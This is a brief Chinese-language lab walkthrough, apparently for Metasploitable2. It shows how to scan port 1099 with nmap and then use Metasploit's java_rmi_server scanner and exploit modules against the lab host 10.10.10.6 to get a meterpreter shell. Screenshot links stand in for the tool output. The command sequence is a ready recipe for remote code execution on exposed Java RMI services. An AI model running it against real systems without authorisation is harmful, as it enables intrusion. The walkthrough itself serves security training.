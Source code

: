 # 1099_java-rmi

nmap扫描

> nmap -v -T4 -sV -p 1099 --version-all --script vuln 10.10.10.6

![image-20210318232648859](../../image/meteaspolitale2/image-20210318232648859.png)

得到漏洞信息

使用msfconsole

> search java_rmi_serve

![image-20210318232934833](../../image/meteaspolitale2/image-20210318232934833.png)

选择辅助脚本

> use auxiliary/scanner/misc/java_rmi_server

![image-20210319091736918](../../image/meteaspolitale2/image-20210319091736918.png)

设置目标靶机

> set RHOSTS 10.10.10.6

![image-20210319091845035](../../image/meteaspolitale2/image-20210319091845035.png)

执行

> exploit

![image-20210319091918299](../../image/meteaspolitale2/image-20210319091918299.png)

选择攻击模块

> use exploit/multi/misc/java_rmi_server

![image-20210318233036970](../../image/meteaspolitale2/image-20210318233036970.png)

查看设置

> options

![image-20210318233203052](../../image/meteaspolitale2/image-20210318233203052.png)

设置目标ip

> set RHOSTS 10.10.10.6

![image-20210318233319395](../../image/meteaspolitale2/image-20210318233319395.png)

执行

> exploit

![image-20210319092131403](../../image/meteaspolitale2/image-20210319092131403.png)

 得到meterpreter的shell

